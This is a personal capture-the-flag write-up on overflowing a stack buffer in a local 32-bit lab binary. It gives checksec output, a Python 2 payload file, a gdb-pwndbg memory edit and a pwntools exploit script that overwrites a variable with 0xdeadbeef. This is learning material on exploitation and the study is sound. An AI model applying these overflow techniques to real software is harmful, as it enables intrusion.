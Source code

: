 #ctf #pwn 
note to self: pwn tools is installed in the venv. 
### Overwriting stack variables 2 

file:
```
overwrite: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=094cbdd4694e5f4aeb958401302aadc77be2c5f0, for GNU/Linux 3.2.0, not stripped
```

checksec:
```
└─$ checksec --file=overwrite
- Partial RELRO
- NO Stack canary 
- NX disabled 
- NO pie 

```


#### Manual exploit with python: NEEDS TO BE PYTHON 2
```
payload = 'A'*32+"\xef\xbe\xad\xde"
file = open("payload", "w")
file.write(payload)

print(payload)
```

- Work in python2 since `'A'*32+"\xef\xbe\xad\xde"` is considered raw bytes, in python3 its considered a string. 


This payload we can send to the file:
```
└─$ ./overwrite < payload
yes? good job!!
deadbeef
```


#### Using gdb-pwndbg: 

From ghidra we find a place where we compare the input of the users to a hex value. We take this memory address and set a breakpoint:
`break *0x080491e0`

```
Running it we stop at the breakpoint, and check the compare statement:
cmp dword ptr [ebp - 0xc], 0xdeadbeef 

We want this to be true, so we check the actual value in the memory location:

pwndbg> x $ebp - 0xc
0xffffcfdc:     0x12345678

And we can see its not equal to 0xdeadbeef. 


We could set it to decired value manually:
pwndbg> set *0xffffcfdc = 0xdeadbeef
pwndbg> x $ebp - 0xc
0xffffcfdc:     0xdeadbeef

If we run continue, we get the decired result. 
```

- Note this would be "cheating" since we could not exploit this program running on a server with this approach. 


#### Using Pwn Tools:
```
└─$ cat exploit.py
from pwn import *

# Start program
io = process('./overwrite')

# Send string to overflow buffer
io.sendlineafter(b'?', b'A' * 32 + p32(0xdeadbeef))

# Receive output
print(io.recvall().decode())
```

- Start our program as a process
- After we are prompted with a '?' we send 32 As and 0xdeadbeef packed for a ?32 bit program?
- Then we print the output and decode it to readable format. 